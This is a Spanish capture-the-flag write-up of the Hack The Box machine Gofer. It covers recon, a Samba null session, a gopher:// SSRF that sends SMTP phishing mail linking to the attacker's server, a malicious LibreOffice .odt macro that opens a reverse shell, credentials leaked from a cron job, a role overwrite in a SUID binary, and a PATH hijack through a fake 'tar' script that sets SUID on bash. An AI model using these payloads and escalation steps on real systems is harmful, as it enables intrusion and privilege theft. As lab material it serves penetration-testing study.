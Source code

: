 -------
- Tags: #odt #macros #gopher #smtp #cron-job #reversing #path-hijacking
-------------
## Técnicas utilizadas
- Samba enumeration
- Send mail with Gopher [SSRF]
- Create malicious .odt
- Information Leaked in Cron Job
- Overwriting variable
- Path Hijacking
## Procedimiento

![[Pasted image 20230730002828.png]]

----------
#### Reconocimiento
Si lanzamos un **nmap** sobre la maquina, podemos ver estos puertos abiertos:
```ruby
# nmap -sCV -p22,80,139,445 -oN Ports 10.129.4.201
Nmap scan report for 10.129.4.201
Host is up (0.13s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 aa25826eb804b6a9a95e1a91f09451dd (RSA)
|   256 1821baa7dce44f60d781039a5dc2e596 (ECDSA)
|_  256 a42d0d45132a9e7f867af6f778bc42d9 (ED25519)
80/tcp  open  http        Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to http://gofer.htb/
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: Host: gofer.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-07-29T19:02:06
|_  start_date: N/A
|_nbstat: NetBIOS name: GOFER, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
|_clock-skew: -17h00m09s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 30 12:02:19 2023 -- 1 IP address (1 host up) scanned in 16.98 seconds
```

Un escaneo con **whatweb** sobre la pagina web, nos muestra que corre estas tecnologías por detras:
```ruby
# whatweb gofer.htb
http://gofer.htb [200 OK] Apache[2.4.56], Bootstrap, Country[RESERVED][ZZ], Email[info@gofer.htb], Frame, HTML5, HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[10.129.4.49], Lightbox, Script, Title[Gofer]
```

--------
#### Samba enumeration
Al intentar listar los recursos compartidos a nivel de red, nos daremos cuenta de que tenemos permisos de lectura, dado que esta permitido hacer uso de una sesión **nula**:
![[nullsession.png]]

Para no estar haciendo uso de **smbmap** o **smbclient** hare uso de monturas:
```
# mount -t cifs //gofer.htb/shares /mnt/shares
```

Dentro, encontramos un correo electronico el cual nos dice que **Jocelyn** ha sido victima de constante ataques de **phishing** y que a pesar de esto, ella sigue abriendo los enlaces. Además, de que ahora el unico formato de documento admitido sera **.odt**, y que para poder enviar correos, se necesitara hacerse de forma local en la red:
![[mail.png]]

-----------
#### Send mail with Gopher [SSRF]
Pues bien, si visitamos la web, no encontramos nada interesante. Aplicando **fuzzing** de directorios y de archivos tampoco llegamos a completamente nada, sin embargo, si **fuzzeamos** por subdominios, encontramos uno interesante:
![[subdomain.png]]

Al visitar este subdominio, de primeras, nos pedira una contraseña y un usuario que por ahora no tenemos. En este punto, podemos intentar **fuzzear** por archivos dentro de este mismo subdominio, solo que no encontramos nada, pero, si lo intentamos con el metodo **POST** encontramos el siguiente archivo:
![[index.png]]

En este punto, la propia maquina nos da una pequeña pista. El nombre es **Gofer** que hace referencia a **Gopher**, si buscamos por esto en **hacktricks** encontramos un articulo que nos da una orientación de que podemos hacer:
![[gopher.png]]

Bien, basicamente podemos hacer uso de **Gopher** para derivar un **SSRF** que nos permita mandar un correo a **Jocelyn** la cual se supone esta pendiente de los correos que les llega. Pero ahora surge un problema, ¿Cual sera el correo de **Jocelyn**? Si bien no lo indica en el correo que leimos, en la misma pagina nos dan un poco de informacion:
![[jennifer.png]]

Asi que el correo, siguiente la nomenclatura que vemos en el email, seria `jhudson@gofer.htb`. Ahora, solo queda preparar el **payload** que mandaremos, en este caso yo usare el mismo ejemplo que viene en [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
solo que modificare algunas cosas:
```ruby
curl -s -X POST "http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/xHELO%202130706433%250d%250aMAIL%20FROM%3A%3sexcott@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BSexcott%5D%20%3Csexcott@sexcott%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20Te%20amo%20Jennifer%250d%250a%250d%250a%20%250ahttp://10.10.14.40:80/%250d%250a%250d%250a.%250d%250aQUIT%250d%250a"
```

Basicamente, la data urlencodeada es esta:
```java
xHELO 2130706433
MAIL FROM:<sexcott@gofer.htb>
RCPT TO:<jhudson@gofer.htb>
DATA
From: [Sexcott] <sexcott@sexcott>
To: <jhudson@gofer.htb>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Te amo Jennifer

 
http://10.10.14.40:80/

.
QUIT
```

Antes de lanzarlo, con python montaremos un servidor para ver si **Jocelyn** hice click en nuestro link:
![[python.png]]

---------------------
#### Create malicious .odt
Ahora al saber que **Jocelyn** esta viendo nuestro enlace y, además, como lo indica en el correo, esta en espera de un archivo **.odt**, solo nos queda montarnos un **.odt** malicioso con una macro por detrás que nos lance una **reverse shell**, esto se explica mucho mejor en este [articulo](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html).

Para hacerlo, podemos seguir estos pasos:
1. Creamos un nuevo documento.
2. Vamos a la pestaña de Tools -> Macros -> Organize Macros -> Basic
3. Seleccionamos nuestro archivo y clickeamos New:
![[newmacro.png]]
5. Indicamos un nombre, el que deseemos.
6. Dentro colocamos nuestro comando malicioso, en este caso, me entablare una reverse shell:
![[macro.png]]
7. Tecleamos `ctrl + s` y guardamos el archivo donde queramos.
8. Vamos a Tools -> Customize -> Open Document -> Macro y dentro selecionamos nuestro macro y le damos OK:
![[assigmentMacro.png]]

9. Lo guardamos y listo, ya tenemos nuestro **.odt** malicioso

Con nuestro **.odt** creado, montamos un servidor con **python** y nos ponemos en escucha con **nc**. Mandamos el correo haciendo referencia a nuestro archivo **.odt**:
```ruby
curl -s -X POST "http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/xHELO%202130706433%250d%250aMAIL%20FROM%3A%3sexcott@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BSexcott%5D%20%3Csexcott@sexcott%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20Te%20amo%20Jennifer%250d%250a%250d%250a%20%250ahttp://10.10.14.40:80/pwned.odt%250d%250a%250d%250a.%250d%250aQUIT%250d%250a"
```

Y obtendriamos la shell y la primera flag:
![[shell.png]]

-----------
#### Information Leaked in Cron Job
Una vez dentro, podemos subir **pspy** y ver que procesos se estan ejecutando en intervalos regulares de tiempo y encontramos uno que se esta autenticando contra el Basic Autentication:
![[cronjon.png]]

con estas credenciales nos podemos conectar por **ssh** como **tbuckley**.

--------
#### Overwriting variable
Si listamos los grupos a los cuales pertenecemos, vemos que formamos parte de **dev**:
```
tbuckley@gofer:~$ id
uid=1002(tbuckley) gid=1002(tbuckley) groups=1002(tbuckley),1004(dev)
tbuckley@gofer:~$ 
```

Filtrando por archivos que pertenezcan a este grupo, encontramos un **SUID**:
```
tbuckley@gofer:~$ find / -group dev 2>/dev/null
/usr/local/bin/notes
tbuckley@gofer:~$ 
```

Aplicandando un poco de reversing con **Ghidra** vemos algo interesante:
![[binary.png]]

Esto, basicamente esta haciendo una comparación. Esta comparando que despues de 24 caracteres ( 0x18 es 24 en decimal ) exista una cadena con valor **admin**. Podemos abusar de esto dado que, si creamos un usuario, lo eliminamos, creamos una nota y despues verificamos nuestro rol este abra desaparecido:
![[roldontfind.png]]

Bien, es creando una nota cuando podemos sobreescribir el **Role**. Lo unico que tendriamos que hacer es colocar una cadena con una logitud de 24 caracteres y despues de esto colocar **"admin"**:
![[role.png]]

------------
#### Path Hijacking
Ahora como admin, tenemos la opción de crear un **backup** de las notas. Esto, es vulnerable a secuesto de **Path** dado que no hace alución a una ruta **absoluta** como lo vemos en el codigo:
![[tar.png]]

Creamos un archivo en **/tmp/** con nombre **tar** y dentro de este asignamos **SUID** a la **bash**:
```bash 
#!/bin/bash
chmod u+s /bin/bash
```

Exportamos el nuevo path de la siguiente forma:
```
tbuckley@gofer:~$ export PATH=/tmp:$PATH
tbuckley@gofer:~$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Ahora, al crear un backup en vez de tirar de **tar** lo hara de nuestro archivo malicioso y le asignara privilegios **SUID** a la bash:
![[bashSuid.png]]



